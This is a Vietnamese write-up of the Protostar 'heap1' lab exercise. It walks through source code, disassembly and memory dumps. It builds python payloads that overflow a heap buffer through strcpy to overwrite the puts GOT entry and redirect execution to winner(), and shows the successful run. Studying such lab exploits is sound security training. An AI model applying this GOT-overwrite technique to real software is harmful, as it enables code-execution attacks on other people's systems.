 ```yaml
---
layout: post
title: heap1
---
```


Trong bài này, chúng ta sẽ exploit heap để điều hướng chương trình.
Sau đây là source code và asm code của chương trình heap1.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```
```asm
0x08048494 <winner+0>:  push   ebp
0x08048495 <winner+1>:  mov    ebp,esp
0x08048497 <winner+3>:  sub    esp,0x18
0x0804849a <winner+6>:  mov    DWORD PTR [esp],0x0
0x080484a1 <winner+13>: call   0x80483ac <time@plt>
0x080484a6 <winner+18>: mov    edx,0x8048630
0x080484ab <winner+23>: mov    DWORD PTR [esp+0x4],eax
0x080484af <winner+27>: mov    DWORD PTR [esp],edx
0x080484b2 <winner+30>: call   0x804839c <printf@plt>
0x080484b7 <winner+35>: leave
0x080484b8 <winner+36>: ret
0x080484b9 <main+0>:    push   ebp
0x080484ba <main+1>:    mov    ebp,esp
0x080484bc <main+3>:    and    esp,0xfffffff0
0x080484bf <main+6>:    sub    esp,0x20
0x080484c2 <main+9>:    mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:   mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:   mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:   mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:   call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:   mov    edx,eax
0x080484ea <main+49>:   mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:   mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:   mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:   call   0x80483bc <malloc@plt>
0x080484fd <main+68>:   mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:   mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:   mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:   mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:   call   0x80483bc <malloc@plt>
0x08048517 <main+94>:   mov    edx,eax
0x08048519 <main+96>:   mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:  mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:  mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:  add    eax,0x4
0x08048526 <main+109>:  mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:  mov    edx,eax
0x0804852a <main+113>:  mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:  mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:  mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:  mov    DWORD PTR [esp],eax
0x08048538 <main+127>:  call   0x804838c <strcpy@plt>
0x0804853d <main+132>:  mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:  add    eax,0x8
0x08048543 <main+138>:  mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:  mov    edx,eax
0x08048547 <main+142>:  mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:  mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:  mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:  mov    DWORD PTR [esp],eax
0x08048555 <main+156>:  call   0x804838c <strcpy@plt>
0x0804855a <main+161>:  mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
```

Mục tiêu là gọi được hàm `winner`. `strcpy` có thể lợi dụng được để exploit chương trình.
Sử dụng objdump hoặc gdb, ta tìm được địa chỉ của `winner` là `0x08048494`.
Trong chương trình có sử dụng 2 lần `strcpy` và theo sau là `printf` (`puts` trong asm).
Bản chất của lệnh `call puts@plt` là điều hướng chương trình về một bảng symbol do `puts` là external symbol (khác với `winner` hay `main` được định nghĩa trực tiếp trong source code).
Ở các bài về `printf`, ta điều hướng chương trình bằng cách ghi lại giá dẫn đến hàm `puts` thực bằng một giá trị dẫn đến hàm mục tiêu.
Dựa theo phỏng đoán, ta sẽ dùng `strcpy` lần đầu để ghi lại địa chỉ mà giá trị ở đó chứa địa chỉ của `puts` vào `i2->name`.
Sau đó `strcpy` thứ hai sẽ đọc địa chỉ này, và ghi địa chỉ của `winner` vào đó.

Trước hết, chúng ta sẽ kiếm tra vị trí tương đối của 2 biến `i1` và `i2` trên bộ nhớ.
Sau khi chạy thử chương trình với tham số bất kỳ, đây là bộ nhớ tại `esp`.
Từ asm code, ta biết được địa chỉ của <span style="color:aqua">i1</span> và <span style="color:springgreen">i2</span> nằm lần lượt tại `esp + 0x14` và `esp + 0x18`.

<pre class="memory">
0xbffff770:     0x00000008      0xb7fd7ff4      0x08048580      0xbffff798
0xbffff780:     0xb7ec6365      <span style="color:aqua">0x0804a008</span>      <span style="color:springgreen">0x0804a028</span>      0xb7fd7ff4
0xbffff790:     0x08048580      0x00000000      0xbffff818      0xb7eadc76
</pre>

Với cấu trúc của struct `internet`, 4 byte đầu sẽ là `priority` và 4 byte sau là địa chỉ của `name`.
Như vậy, offset của `name` với địa chỉ của biến sẽ là 0x04.
Ta sẽ suy ra được, trong trường hợp này, vị trí của `i1->name` và `i2->name` là `0x0804a00c` và `0x0804a02c`.
Bộ nhớ tại thời điêm trước sau khi `malloc` biến sẽ như sau.

<pre class="memory">
0x804a008:      0x00000001      <span style="color:aqua">0x0804a018</span>      0x00000000      0x00000011
<span style="color:aqua">0x804a018</span>:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      <span style="color:springgreen">0x0804a038</span>      0x00000000      0x00000011
<span style="color:springgreen">0x804a038</span>:      0x00000000      0x00000000      0x00000000      0x00020fc1
</pre>

Hai địa chỉ tương ứng này là `0x0804a018` và `0x0804a038`.
Với kiểu layout này, lần chạy `strcpy` đầu tiên ta có thể lưu tràn từ địa chỉ của `i1->name` tại `0x0804a018` qua vị trí lưu `name` trên biến `i2` là `0x0804a02c`.
Như vậy, tham số đầu tiên của chương trình sẽ cần 24 byte, trong đó 20 byte đầu để làm phần đệm và 4 byte cuối chứa địa chỉ của `puts` trên bảng lookup symbol `got.plt`.
Sau đây là vị trí trên bộ nhớ. Phân biệt theo màu với <span style="color:yellow">địa chỉ lệnh gọi đến symbol puts@plt</span>, <span style="color:orangered">địa chỉ chứa symbol puts@plt trên bảng got.plt</span>, và <span style="color:fuchsia">địa chỉ thực của puts@plt, cần thay thế bằng địa chi của winner</span>.
<pre class="memory">
0x8048561 <main+168>    call   <span style="color:yellow">0x80483cc <puts@plt></span>
...
<span style="color:yellow">0x80483cc <puts@plt></span>:   jmp    DWORD PTR ds:<span style="color:orangered">0x8049774</span>
...
<span style="color:orangered">0x8049774</span> <_GLOBAL_OFFSET_TABLE_+36>:   <span style="color:fuchsia">0x080483d2</span>
</pre>

4 byte cuối cùng sẽ là `0x8049774`.
Như vậy ta sẽ dựng tham số đầu tiên như sau.

```bash
python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08"'
```

Tham số thứ hai sẽ là địa chỉ của `winner`.

```bash
python -c 'print "\x94\x84\x04\x08"'
```

Như vậy, chúng ta sẽ chạy chương trình với input như sau.
Lưu ý cần khoảng trống giữa hai tham số.

```bash
python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08"'
```

<pre class="memory">
<span style="color:aqua">and we have a winner @ 1687025943</span>
</pre>

Mục tiêu đã hoàn thành!

## Ref
```bash
user@protostar:~$ heap1 $(python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08"')
and we have a winner @ 1687025943
```
